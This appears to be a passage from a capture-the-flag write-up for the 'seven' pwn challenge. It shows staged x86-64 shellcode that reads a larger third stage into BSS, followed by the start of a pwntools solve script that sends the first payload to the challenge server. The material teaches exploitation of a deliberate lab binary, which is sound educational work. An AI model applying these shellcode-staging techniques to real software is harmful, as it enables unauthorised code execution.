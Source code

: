 ```python
)
```

Before we can run that, we need to decide *what* to put in our second round of shellcode. This time we're allowed `0xf` bytes, which is thankfully more than the 7 we were allowed to begin with. While it's still not enough to run an open/read/write on the flag, it is enough to read a *third*, longer set of shellcode into BSS:

```nasm
xor eax, eax        ; rax = 0 (read)
xor edi, edi        ; rdi = 0 (stdin)
mov esi, <bss>      ; buffer address (populated by Python)
add rdx, 127        ; length = 127 (maximum size allowed while staying 15 bytes long)
syscall
```

![2nd shellcode](shellcode2.png)

At last, we have arbitrary code execution. From here, it's smooth sailing. As long as we keep our third set of shellcode within 127 bytes, we're safe. In this case, that's more than enough to open/read/write the flag. The final solve script looks like this:

```python
#!/usr/bin/env python3
from pwn import *
import time

binary = "./seven_patched"
elf = context.binary = ELF(binary, checksec=False)
rop = ROP(elf)

gs = f"""
#break *(main+118)
break *(read+25)
ignore 1 1
continue
"""

def run():
    if args.REMOTE:
        return remote("tamuctf.com", 443, ssl=True, sni="tamuctf_seven")
    elif args.GDB:
        context.terminal = ["tmux", "splitw", "-h", "-l", "120"]
        try:
            return gdb.debug(binary, gdbscript=gs)
        except ValueError:
            print("ERROR: tmux not active")
        exit(1)
    else:
        return elf.process()

p = run()

#### Pwn #####
# First set of shellcode to trigger ROP by reading onto stack
payload = asm('''
    xor edi, edi
    push rsp
    pop rsi
    syscall
    ret
''')

print('Length of shellcode 1:', len(payload))
p.send(payload)
```